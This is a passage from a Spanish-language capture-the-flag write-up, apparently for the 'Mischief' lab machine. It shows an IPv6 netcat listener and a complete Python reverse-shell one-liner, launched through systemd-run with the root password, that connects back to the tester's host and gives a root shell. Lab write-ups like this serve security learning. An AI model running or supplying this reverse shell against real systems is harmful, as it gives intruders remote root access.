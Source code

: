 Nos podemos en escucha como la anterior vez como ya tenemos el **netcat** actualizado podemos indicarle que la conexión es por **IPv6** 

```bash
❯ nc -6 -lnvp 444
Listening on :: 444
```

Ahora nos enviamos la shell y le pasamos la contraseña de **root** 

```bash
loki@Mischief:~$ systemd-run python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::100a",444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
==== AUTHENTICATING FOR org.freedesktop.systemd1.manage-units ===
Authentication is required to manage system services or other units.
Authenticating as: root
Password: 
==== AUTHENTICATION COMPLETE ===
Running as unit: run-u22.service
loki@Mischief:~$ 
```

Nos llega la **shell**

```bash
❯ nc -6 -lnvp 444
Listening on :: 444
Connection received on dead:beef::250:56ff:feb9:5fae 50630
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# 
```
